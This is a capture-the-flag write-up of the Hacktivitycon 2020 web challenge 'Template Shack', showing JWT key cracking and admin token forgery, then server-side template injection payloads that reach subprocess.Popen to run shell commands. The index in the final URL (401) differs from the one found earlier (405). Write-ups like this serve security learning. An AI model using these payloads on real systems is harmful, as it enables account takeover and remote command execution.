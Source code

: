 ```yaml
---
title: Template Shack
date: 2020-12-29
excerpt: "'Template Shack' was a challenge in the Web category of Hacktivitycon"
classes: wide
categories: Hacktivitycon2020
tags:
  - hacktivitycon
  - SSTI
  - RCE
  - web
  - jwt
---
```


![img](/assets/images/ctf/hacktivitycon-web-templateshack/0.png)


![img](/assets/images/ctf/hacktivitycon-web-templateshack/1.png)


Nothing out of place. Checking the cookies we see what looks to be a JSON Web Token



![img](/assets/images/ctf/hacktivitycon-web-templateshack/2.png)


[jwt.io](http://jwt.io) confirms that it's a JWT and it's using HS256 as the hashing algorithm. Let's see if we can forge our own by cracking this one.



![img](/assets/images/ctf/hacktivitycon-web-templateshack/3.png)


Using jwt-tool to crack the key



![img](/assets/images/ctf/hacktivitycon-web-templateshack/4.png)


Time to forge our own admin JWT:



![img](/assets/images/ctf/hacktivitycon-web-templateshack/5.png)


By changing the cookie value to our new JWT, we've accessed the admin account



![img](/assets/images/ctf/hacktivitycon-web-templateshack/6.png)


Nothing seems to work here, and the only two options that do work kick back a 404.



![img](/assets/images/ctf/hacktivitycon-web-templateshack/7.png)


Interesting. The URL that's causing the error seems to be reflected on the page. Seems like we can control it.



Since the name of the challenge is 'Template Shack', let's jump right into template injection



`jh2i.com:50023/admin/{{7*7}}`



![img](/assets/images/ctf/hacktivitycon-web-templateshack/8.png)


Template injection is a go!



Starting with


```
{{''.__class__.__mro__[1].__subclasses__()}}
```


we can look for the `'subprocess.Popen'` class



![img](/assets/images/ctf/hacktivitycon-web-templateshack/9.png)


we need it's exact index in the list. Let's use slicing to find it:


```
{{''.__class__.__mro__[1].__subclasses__()[400::]}}
```


By continuously slicing higher indicies, we can track down exactly where `subprocess.Popen` is


```
{{''.__class__.__mro__[1].__subclasses__()[405::]}}
```


![img](/assets/images/ctf/hacktivitycon-web-templateshack/10.png)


Now that it's at the top of the list, we know it's at 405



Payload:


```
{{''.__class__.__mro__[1].__subclasses__()[405]('cat flag.txt',shell=True,stdout=-1).communicate()}}
```


Full url:


```
http://jh2i.com:50023/admin/{{''.__class__.__mro__[1].__subclasses__()[401]('cat flag.txt',shell=True,stdout=-1).communicate()}}
```


![img](/assets/images/ctf/hacktivitycon-web-templateshack/11.png)

